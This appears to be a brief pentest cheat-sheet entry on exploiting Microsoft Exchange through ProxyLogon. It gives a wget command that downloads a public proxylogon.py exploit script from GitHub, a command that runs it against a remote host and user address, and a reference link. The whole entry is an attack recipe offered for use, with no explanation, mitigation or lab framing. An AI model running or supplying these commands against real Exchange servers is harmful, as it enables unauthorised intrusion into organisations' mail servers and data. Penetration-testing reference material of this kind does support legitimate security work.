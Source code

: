 ### Download exploit
```
wget https://raw.githubusercontent.com/hausec/ProxyLogon/main/proxylogon.py
```

### Exploit microsoft exchange proxylogon
```
python proxylogon.py <rhost> <user@fqdn>
```

### References
https://github.com/hausec/ProxyLogon  


